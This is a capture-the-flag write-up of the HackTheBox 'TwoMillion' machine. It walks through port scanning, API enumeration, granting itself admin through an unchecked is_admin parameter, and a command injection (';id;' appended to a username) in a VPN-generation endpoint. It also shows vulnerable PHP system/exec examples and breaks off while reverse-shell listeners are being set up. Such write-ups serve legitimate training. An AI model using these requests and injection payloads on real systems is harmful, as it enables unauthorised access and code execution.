

# HackTheBox - TwoMillion Write-up 🇬🇧

## Introduction

Hello everyone!

Here is my write-up for the "TwoMillion" box on HackTheBox—a box classified as easy and covering several interesting concepts such as:

- API enumeration
- Command injection via a vulnerable endpoint
- Local system enumeration
- Exploitation of two CVEs

As usual, throughout this guide, I will review the common steps of a penetration test:

- Reconnaissance
- Exploitation
- Post-exploitation

## Information

- 💻 **Machine Type**: Linux
- **🧠 Main Skills Tested**: Web Exploitation, API, Local Enumeration, Privilege Escalation
- **📦 Tools Used**: Nmap, Curl, Netcat, Pwncat, Burpsuite, Firefox

This machine is an excellent opportunity to practice the enumeration (internal/external) of a web server, the enumeration/exploitation of an API on a Linux server, and some privilege escalation techniques.

Let's get started!

---

## Preparation

First, we can add the target IP address to the `/etc/hosts` file to facilitate interaction with the target machine.

```bash
echo "10.129.161.99 target" | sudo tee -a /etc/hosts
```

Or with nano:

```bash
sudo nano /etc/hosts
10.129.161.99 target # Add this line
```

This allows us to access the IP address `10.10.135.61` via the following name: `target`

**Warning: The target IP address `10.129.161.99` may change during the write-up**

Let's verify our connection to the HackTheBox VPN with a simple ping to the target machine:

```bash
ping -c 4 target
PING target (10.129.161.99) 56(84) bytes of data.
64 bytes from target (10.129.161.99): icmp_seq=1 ttl=63 time=28.4 ms
64 bytes from target (10.129.161.99): icmp_seq=2 ttl=63 time=24.8 ms
64 bytes from target (10.129.161.99): icmp_seq=3 ttl=63 time=25.4 ms
64 bytes from target (10.129.161.99): icmp_seq=4 ttl=63 time=26.3 ms
--- target ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3039ms
rtt min/avg/max/mdev = 24.815/26.229/28.398/1.363 ms
```

This also allows us to verify that the target machine is accessible from our attacking machine.

Note that this verification will not work if the target machine blocks ICMP requests; in that case, another verification method will be needed.

## Enumeration

As usual, we can start our (active) enumeration by performing our Nmap scan using the aggressive `-A` template to gather as much information as possible during our first scan.

```bash
nmap -A -oN scan.txt -oX scan.xml target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 11:16 CEST
Nmap scan report for target (10.129.161.99)
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx
|_http-title: Did not follow redirect to http://2million.htb/
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 995/tcp)
HOP RTT ADDRESS
1 91.03 ms 10.10.16.1
2 25.49 ms target (10.129.161.99)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 11.74 seconds
```

Okay, our scan has completed successfully. From this result, we can gather several pieces of information:

- **Port 22**: Port 22 (SSH) is open; the machine also seems to be using the OpenSSH service version 8.9p1 → This means that with functional credentials, we can connect via SSH to the target machine.
- **Port 80**: Port 80 (HTTP) is also open; the machine thus seems to be a web server (SSH + HTTP) using the Nginx web service. We can also note that a redirection seems to have failed thanks to the NSE script `http-title` and the message `Did not follow redirect to http://2million.htb/` likely due to a system error.

To clarify things, we can use the script I recently developed: [Nmap2Table](https://github.com/0xMR007/Nmap2Table.git)

```bash
nmap2table scan.xml table.md
Starting main script...
Extracting nmap data from /home/mr007/CTFs/HackTheBox/TwoMillion/scan.xml
Generating output to /home/mr007/CTFs/HackTheBox/TwoMillion/table.md
Successfully wrote to file: /home/mr007/CTFs/HackTheBox/TwoMillion/table.md
```

We obtain the following result:

### Host: 10.129.161.99 (target)

| Port/Protocol | State | Service | Version |
|---------------|-------|---------|---------|
| 22/tcp | open | ssh | OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 |
| 80/tcp | open | http | nginx |

### NSE Scripts:

```bash
Port 22:
ssh-hostkey:
256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
Port 80:
http-title:
Did not follow redirect to <http://2million.htb/>
```

Okay, so to summarize so far: the target machine seems to be an Nginx web server with the possibility of connecting to it via SSH (like any server in general). We also have a web redirection issue that we will resolve next.

Before going further in our enumeration, we need to ensure that we haven't missed any other ports. We can do this with the following command:

```bash
nmap -sS -p- --min-rate=1500 target
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 11:17 CEST
Nmap scan report for target (10.129.161.99)
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
Nmap done: 1 IP address (1 host up) scanned in 10.35 seconds
```

Perfect, the only open ports seem to be 22 and 80. Let's continue.

## Q1 - TCP Ports

**Question Reminder:** *How many TCP ports are open?*

From our previous results, we found 2 TCP ports.

**Answer:** `2`

To resolve the redirection issue, we can simply add the following line to our `hosts` file:

```bash
sudo nano /etc/hosts
10.129.161.99 target 2million.htb # Add this line
```

**Note:** The `/etc/hosts` file (or `C:WindowsSystem32driversetchosts` on Windows) acts as a local DNS. It allows mapping an IP address to a domain name.

By adding this line, we can correctly access the web application hosted by the target machine via the domain name `2million.htb`.

Let's perform our initial scan again:

```bash
nmap -A -oN scan.txt -oX scan.xml 2million.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 11:25 CEST
Nmap scan report for 2million.htb (10.129.161.99)
Host is up (0.058s latency).
rDNS record for 10.129.161.99: target
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_ 256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open http nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 143/tcp)
HOP RTT ADDRESS
1 91.23 ms 10.10.16.1
2 24.32 ms target (10.129.161.99)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 11.19 seconds
```

Perfect! The DNS resolution issue seems to be resolved.

We now have access to the web application hosted by the target machine.

Let's try to access it via a web browser!


After going to `2million.htb`, we get a HTB homepage.

If we go to the `/invite` page and analyze it more closely using the *Network* tab of Firefox Devtools (`F12`), we can notice something.


In the requests made, a JavaScript file `inviteapi.min.js` is present.

## Q2 - JavaScript File

**Question Reminder:** *What is the name of the JavaScript file loaded by the `/invite` page that is related to invitation codes?*

From question 2, we need to look for a JavaScript file that is loaded on the `/invite` page and is related to invitation codes.

From the file name `inviteapi.min.js`, we can simply answer `inviteapi.min.js`.

## Q3 - JavaScript Function

**Question Reminder:** *Which JavaScript function on the invitation page returns the first clue to get an invitation code?*

To find the name of this function, we can use the Firefox Debugger.

By searching for the term "code," we first get a function `verifyInviteCode` and just below it, another particularly interesting function named `makeInviteCode` related to obtaining an invitation code.


**Answer:** `makeInviteCode`

## Q4 - Encoding

**Question Reminder:** *The endpoint in makeInviteCode returns encrypted data. This message provides another endpoint to query. This endpoint returns a `code` value with a very common binary-to-text conversion format. What is the name of this encoding?*

From the previous JavaScript function, we notice a quite interesting endpoint: `/api/v1/invite/how/to/generate`

It's an API endpoint! Let's make an HTTP POST request to it to see what happens.

```bash
curl -v -X POST -d {} http://2million.htb/api/v1/invite/how/to/generate
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.161.99
* Trying 10.129.161.99:80...
* Connected to 2million.htb (10.129.161.99) port 80
* using HTTP/1.x
> POST /api/v1/invite/how/to/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Content-Length: 2
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 2 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 09 Aug 2025 09:55:52 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=25fb2hvggap1q3i2b2lri5gmqb; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probably check the encryption type in order to decrypt it..."}%
```

Well, from the result of the **curl** command, we get a very interesting response:

```json
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probably check the encryption type in order to decrypt it..."}%
```

This response, in JSON format (a format often used for APIs), contains a value for the `data` key that seems to be encrypted with a Caesar cipher (`ROT13`).

We can try to decrypt it via Cyberchef (https://gchq.github.io/CyberChef/)


Perfect, we have successfully decrypted the received message!

According to it, we need to make another POST request to the endpoint `/api/v1/invite/generate`

Let's try that!

```bash
curl -v -X POST -d {} http://2million.htb/api/v1/invite/generate
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.161.99
* Trying 10.129.161.99:80...
* Connected to 2million.htb (10.129.161.99) port 80
* using HTTP/1.x
> POST /api/v1/invite/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Content-Length: 2
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 2 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 09 Aug 2025 10:02:43 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=15glilrogk7npdh9a5v0u6d9f8; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"0":200,"success":1,"data":{"code":"MkJEQVQtS0VNNVgtMEdDTFAtSDlaMlU9","format":"encoded"}}%
```

Okay, this time we receive a code that seems to be base64 encoded.

Let's decode it on Cyberchef again.


Or via the command line:

```bash
echo 'MkJEQVQtS0VNNVgtMEdDTFAtSDlaMlU9' | base64 -d
2BDAT-KEM5X-0GCLP-H9Z2U
```

The result seems to correspond to an invitation code; by entering `base64` as the answer to the question, it is validated. So this is the correct encoding!

**Answer:** `base64`

## Q5 - Login Pack

**Question Reminder:** *What is the path to the endpoint that the page uses when a user clicks on "Login Pack"?*

Now that we have an invitation code, we can enter it on the `/invite` page and then create an account.


Perfect, after logging into our new account, we get a dashboard with several side tabs (Dashboard, Rules, Change Log, etc.).

Looking around, I went to the `/access` page via the ***Access*** tab.

I then found the famous "Connection pack" button and inspected it via Firefox Devtools.


From the screenshot above, the button seems to point to the endpoint `/api/v1/user/vpn/generate`, which answers our question.

**Answer:** `/api/v1/user/vpn/generate`

## Q6 - Number of API Endpoints

**Question Reminder:** *How many API endpoints exist under /api/v1/admin?*

For this question, I spent some time figuring out how to approach it. I first tried fuzzing but quickly realized it wasn't the right solution.

By making a simple request (GET by default) with **curl** to `/api`, I first got a 401 (Unauthorized) error.

```bash
curl -v http://2million.htb/api
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> GET /api HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Sun, 10 Aug 2025 14:50:05 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=l09qjmu1dlkss4u8m5j7u9umrk; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
```

I then retrieved my session cookie below and passed it in a new request.



```bash
curl -v http://2million.htb/api --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> GET /api HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 14:51:23 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"/api/v1":"Version 1 of the API"}
```

Finnally got a satisfactory response: `{"/api/v1":"Version 1 of the API"}`.

Next, I continued progressively to the endpoint of interest `/admin` while keeping my session cookie.

```bash
curl -v http://2million.htb/api/v1 --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> GET /api/v1 HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 14:51:58 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"v1":{"user":{"GET":{"/api/v1":"Route List","/api/v1/invite/how/to/generate":"Instructions on invite code generation","/api/v1/invite/generate":"Generate invite code","/api/v1/invite/verify":"Verify invite code","/api/v1/user/auth":"Check if user is authenticated","/api/v1/user/vpn/generate":"Generate a new VPN configuration","/api/v1/user/vpn/regenerate":"Regenerate VPN configuration","/api/v1/user/vpn/download":"Download OVPN file"},"POST":{"/api/v1/user/register":"Register a new user","/api/v1/user/login":"Login with existing user"}},"admin":{"GET":{"/api/v1/admin/auth":"Check if user is admin"},"POST":{"/api/v1/admin/vpn/generate":"Generate VPN for specific user"},"PUT":{"/api/v1/admin/settings/update":"Update user settings"}}}}
```

I also discovered that we could get a more aesthetic output by piping (`|`) the curl response to the `jq` command. We then get:

```bash
curl http://2million.htb/api/v1 --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 800 0 800 0 0 4338 0 --:--:-- --:--:-- --:--:-- 4347
{
"v1": {
"user": {
"GET": {
"/api/v1": "Route List",
"/api/v1/invite/how/to/generate": "Instructions on invite code generation",
"/api/v1/invite/generate": "Generate invite code",
"/api/v1/invite/verify": "Verify invite code",
"/api/v1/user/auth": "Check if user is authenticated",
"/api/v1/user/vpn/generate": "Generate a new VPN configuration",
"/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
"/api/v1/user/vpn/download": "Download OVPN file"
},
"POST": {
"/api/v1/user/register": "Register a new user",
"/api/v1/user/login": "Login with existing user"
}
},
"admin": {
"GET": {
"/api/v1/admin/auth": "Check if user is admin"
},
"POST": {
"/api/v1/admin/vpn/generate": "Generate VPN for specific user"
},
"PUT": {
"/api/v1/admin/settings/update": "Update user settings"
}
}
}
}
```

We can now answer the question:

**Answer:** `3`

## Q7 - Endpoint to Change a User Account to an Admin Account

**Question Reminder:** *Which API endpoint allows changing a user account to an administrator account?*

From the previous result, we have obtained a broader view of the API structure.

The endpoint that would most correspond to this question would be `/api/v1/admin/settings/update`, particularly by its description `"Update user settings"`.

**Answer:** `/api/v1/admin/settings/update`

## Q8 - Command Injection

**Question Reminder:** *Which API endpoint has a command injection vulnerability?*

Well, we need to find an endpoint vulnerable to command injection.

Let's make a request to `/api/v1/admin/auth` to check our current privileges.

```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 17 0 17 0 0 93 0 --:--:-- --:--:-- --:--:-- 93
{
"message": false
}
```

Apparently, we don't have administrator privileges.

We could try to give ourselves these privileges via the `/api/v1/admin/settings/update` endpoint, right?

Let's try to do that with a test request with an empty data body.

```bash
curl -v -X PUT -d {} -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 2
>
} [2 bytes data]
* upload completely sent off: 2 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:16:29 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [67 bytes data]
100 58 0 56 100 2 311 11 --:--:-- --:--:-- --:--:-- 324
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: email"
}
```

Interesting, it seems we are missing an email parameter in the previously sent data.

Let's add the email we used during our registration to the data body.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 27
>
} [27 bytes data]
* upload completely sent off: 27 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:17:50 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [70 bytes data]
100 86 0 59 100 27 322 147 --:--:-- --:--:-- --:--:-- 472
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: is_admin"
}
```

It seems we are missing another parameter `is_admin`; in any case, the email parameter seems to have been recognized.

Let's add the `is_admin` parameter to the data body with a value of "false" to test.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com", "is_admin": "false"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 48
>
} [48 bytes data]
* upload completely sent off: 48 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:18:42 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [87 bytes data]
100 124 0 76 100 48 408 258 --:--:-- --:--:-- --:--:-- 670
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Variable is_admin needs to be either 0 or 1."
}
```

Okay, so the parameter does not take a boolean but a binary value (which ultimately amounts to the same thing). Let's set this value to 1 to give ourselves administrator privileges.

```bash
curl -v -X PUT -d '{"email": "mr007@mail.com", "is_admin": 1}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> PUT /api/v1/admin/settings/update HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 42
>
} [42 bytes data]
* upload completely sent off: 42 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:19:00 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [54 bytes data]
100 85 0 43 100 42 231 226 --:--:-- --:--:-- --:--:-- 459
* Connection #0 to host 2million.htb left intact
{
"id": 13,
"username": "0xMR007",
"is_admin": 1
}
```

Perfect, the server returns our user account along with its characteristics.

This seems to have worked; let's check our privileges again.

```bash
curl -v http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> GET /api/v1/admin/auth HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:21:15 GMT
< Content-Type: application/json
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
* Connection #0 to host 2million.htb left intact
{"message":true}
```

Perfect! We have successfully updated our user account to an admin account.

Let's now try to generate our VPN file to verify that our admin privileges work.

```bash
curl -v -X POST -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
>
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:22:24 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [70 bytes data]
100 59 0 59 0 0 327 0 --:--:-- --:--:-- --:--:-- 325
* Connection #0 to host 2million.htb left intact
{
"status": "danger",
"message": "Missing parameter: username"
}
```

The username seems to be required. Let's add it to the data body.

```bash
curl -v -X POST -d '{"username": "0xMR007"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314" -o vpn.ovpn
Note: Unnecessary use of -X or --request, POST is already inferred.
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
0 0 0 0 0 0 0 0 --:--:-- --:--:-- --:--:-- 0* Host 2million.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.159.192
* Trying 10.129.159.192:80...
* Connected to 2million.htb (10.129.159.192) port 80
* using HTTP/1.x
> POST /api/v1/admin/vpn/generate HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/8.14.1
> Accept: */*
> Cookie: PHPSESSID=6rpp80g8sueusjtr6fgeqd5314
> Content-Type: application/json
> Content-Length: 23
>
} [23 bytes data]
* upload completely sent off: 23 bytes
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:24:17 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [9374 bytes data]
100 10855 0 10832 100 23 23400 49 --:--:-- --:--:-- --:--:-- 23495
* Connection #0 to host 2million.htb left intact
ll
total 32K
-rw-rw-r-- 1 mr007 mr007 1.1K Aug 9 11:25 scan.txt
-rw-rw-r-- 1 mr007 mr007 12K Aug 9 11:25 scan.xml
-rw-rw-r-- 1 mr007 mr007 470 Aug 9 11:17 table.md
-rw-rw-r-- 1 mr007 mr007 11K Aug 9 18:21 vpn.ovpn
```

Perfect! We have successfully generated a VPN file.

This is great news; this file seems to be generated based on our user input. Moreover, if this file is generated using a system function like `exec` or `system` in PHP and the inputs are not properly checked (no sanitization), a command injection could be possible.

### Examples of PHP Code Vulnerable to Command Injection

```php
system("genvpn --user={$username}");
```

```php
exec("bash gen_config.sh {$username}");
```

In both cases, if we manage to inject a system command via the `$username` variable, the target machine will execute:

```bash
# If the variable $username contains the string "test;id;":
genvpn --user=test;id; # In Bash, the ; allows executing a second command on the same line
```

Let's try to reproduce this in our case.

```bash
curl -X POST -d '{"username": "0xMR007;id;"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect! The endpoint `/api/v1/admin/vpn/generate` is indeed vulnerable to command injection.

**Answer:** `/api/v1/admin/vpn/generate`

## Exploitation

Now that we can execute simple commands via the endpoint, we can try to set up a reverse shell, which will allow us to interact properly with the target machine.

Setting up the ***pwncat*** listener (pwncat allows us to get a much more functional reverse shell than netcat):

```bash
pwncat -lp 4444
[18:28:29] Welcome to pwncat 🐈! __main__.py:164
bound to 0.0.0.0:4444 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

Or with **netcat**:

```bash
nc -lnvp
```

To maximize our chances of executing our reverse shell on the target machine, we can encode our payload (the executable part of the attack) for several reasons: bypassing filters/WAF, avoiding corruption (special characters), hiding the payload (in a way), and using a valid format.

